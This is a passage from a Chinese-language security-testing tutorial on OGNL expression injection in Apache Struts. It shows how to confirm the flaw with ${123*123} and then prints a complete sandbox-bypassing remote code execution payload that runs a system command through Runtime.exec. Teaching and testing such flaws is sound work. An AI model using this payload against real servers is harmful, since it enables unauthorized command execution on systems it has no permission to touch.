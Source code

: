 4.  当我们这样做时，服务器处理我们的`Testing123`字符串并用相同的字符串响应：

![](img/e2d6107e-672a-4815-8e8d-625244797946.png)

5.  为了测试表达式语言注入（如 OGNL），我们需要使用`${..}`或`%{..}`语法。OGNL 将处理`${..}`或`%{..}`中包含的任何内容。因此，对于一个简单的测试，让我们使用一个`${123*123}`或`%{123*123}`字符串：

![](img/22f2e91b-a078-4f9f-8287-983fd56ca758.png)

6.  由于代码位于前面有`$`或`%`的括号中，服务器将其作为 OGNL 表达式进行处理，并以如下屏幕截图所示的结果进行响应：

![](img/081adc0f-5dc1-4a35-8c6f-cf95e6b9f3c6.png)

现在我们已经成功地确认了前面测试用例中的漏洞，让我们了解如何在进程上执行 OGNL 注入时注入有效负载并绕过沙箱（如果有的话）。

# 通过 OGNL 注入测试远程代码执行

为了测试该漏洞，我们将使用以下有效负载：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```
